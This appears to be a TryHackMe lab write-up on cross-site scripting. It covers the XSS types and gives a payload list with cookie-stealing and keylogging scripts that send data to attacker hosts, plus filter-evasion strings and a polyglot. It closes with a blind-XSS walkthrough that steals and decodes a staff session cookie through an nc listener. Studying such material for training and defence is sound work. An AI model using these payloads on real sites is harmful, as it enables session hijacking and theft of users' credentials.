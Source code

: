 Room URL: https://tryhackme.com/room/xss

Cross-Site Scripting (XSS) is a web security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. XSS attacks are classified into three main types:

1. **Reflected XSS**
2. **Stored (Persistent) XSS**
3. **DOM-based XSS**

---

**1. Reflected XSS (Non-Persistent)**

- **Definition**: The malicious script is reflected off a web server (e.g., in an error message, search result, or URL parameter) and executed in the victim's browser.
- **Exploitation**: Requires the victim to click a crafted link.
- **Impact**: Session hijacking, phishing, defacement.

**Example (Simple Reflected XSS)**

```html
http://vulnerable-site.com/search?q=<script>alert('XSS')</script>
```

- If the website reflects the **`q`** parameter without proper sanitization, the script executes.

**Real-World Case**

- **Trusted Source**: [OWASP - Reflected XSS](https://owasp.org/www-community/attacks/xss/#reflected-xss-attacks)

---

**2. Stored XSS (Persistent XSS)**

- **Definition**: The malicious script is permanently stored on the target server (e.g., in a database, comment section, or forum post).
- **Exploitation**: Executes when any user visits the infected page.
- **Impact**: Widespread attacks (e.g., stealing cookies, spreading malware).

**Example (Stored XSS in a Comment Field)**

```html
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```

- If a forum stores this comment, every visitor’s cookies are sent to the attacker.

**Real-World Case**

- **Trusted Source**: [PortSwigger - Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)

---

**3. DOM-based XSS**

- **Definition**: The vulnerability exists in client-side JavaScript rather than server-side code. The attack manipulates the DOM (Document Object Model).
- **Exploitation**: No server interaction needed; executes when unsafe JavaScript modifies the DOM.
- **Impact**: Similar to Reflected XSS but harder to detect.

**Example (DOM XSS via URL Fragment)**

```html
http://vulnerable-site.com#<img src=x onerror=alert('XSS')>
```

- If JavaScript dynamically inserts the fragment (**`#`**) into the DOM unsafely, the payload executes.

**Real-World Case**

- **Trusted Source**: [OWASP - DOM XSS](https://owasp.org/www-community/attacks/DOM_Based_XSS)

---

## XSS Payloads

```jsx
// Proof of Concept:
<script>alert('XSS');</script>

// Session Stealing: 
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

//Key logger
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

//Business Logic:
<script>user.changeEmail('attacker@hacker.thm');</script>

```

`<script>alert('XSS');</script>`

- Simple XSS :  `<script>alert('THM');</script>`
- escaping  input tag:  `"><script>alert('THM');</script>`
- escaping HTML tag: `</textarea><script>alert('THM');</script>`
- escaping JavaScript code: `';alert('THM');//`
- escaping script word filtering: `<sscriptcript>alert('THM');</sscriptcript>`
- escaping `<>` tag filtering inside `img` tag:  `/images/cat.jpg" onload="alert('THM');`
- Polyglots: An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one.  `jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e`

## Testing Blind XSS

Testing blind XSS on the  **Support Tickets** tab. 

First, create a simple ticket to check on how tickets are reflected on the page by viewing the page source

![image.png](attachment:72e3de6a-dfa9-4fe6-bec6-029bfc11bd2c:image.png)

```jsx
            <div class="panel panel-default" style="margin:25px">
                <div class="panel-heading">Ticket Information</div>
                <div class="panel-body">
                    <div><label>Status:</label> Open</div>
                    <div><label>Ticket Id:</label> 8</div>
                    <div><label>Ticket Subject:</label> testing xss</div>
                    <div><label>Ticket Created:</label> 31/07/2025 11:46</div>
                    <div><label>Ticket Contents:</label></div>
                    <div><textarea class="form-control">test</textarea></div>
                </div>
            </div>
```

The **Ticket Contents** are placed inside a textarea tag. 

Escaping textarea tag: create another ticket and put this text inside Ticket Content

`</textarea>test`

![image.png](attachment:fcba153b-5cea-474d-be6f-e1ef5101f01c:image.png)

page source

```jsx

            <div class="panel panel-default" style="margin:25px">
                <div class="panel-heading">Ticket Information</div>
                <div class="panel-body">
                    <div><label>Status:</label> Open</div>
                    <div><label>Ticket Id:</label> 9</div>
                    <div><label>Ticket Subject:</label> escaping textarea tag</div>
                    <div><label>Ticket Created:</label> 31/07/2025 11:55</div>
                    <div><label>Ticket Contents:</label></div>
                    <div><textarea class="form-control"></textarea>test</textarea></div>
                </div>
            </div>

```

Now that we have confirmed a blind XSS vulnerability, we can exploit it to **steal cookies.**

**Exploiting Blind XSS to hijack login sessions:** Create a new ticket with a payload to extract the user’s cookie and exfiltrate it to our listening server. Change the IP and port to your listening server.

```jsx
</textarea><script>fetch('http://10.10.153.151:9001?cookie=' + btoa(document.cookie) );</script>

```

![Screenshot 2025-07-31 150901.png](attachment:01bbb407-ba24-4d6e-aa73-a154ef2b87f4:Screenshot_2025-07-31_150901.png)

Set up the listening port to receive the information. 

```bash
root@ip-10-10-153-151:~# nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.51.18 51786
GET /?cookie=c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ== HTTP/1.1
Host: 10.10.153.151:9001
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/89.0.4389.72 Safari/537.36
Accept: */*
Origin: http://172.17.0.1
Referer: http://172.17.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

root@ip-10-10-153-151:~# echo "c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ==" | base64 -d
staff-session=4AB305E55955197693F01D6F8FD2D321
```

We can use the obtained cookie to impersonate the victim.

## Reference:

- [OWASP XSS Guide](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger XSS Labs](https://portswigger.net/web-security/cross-site-scripting)
- [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
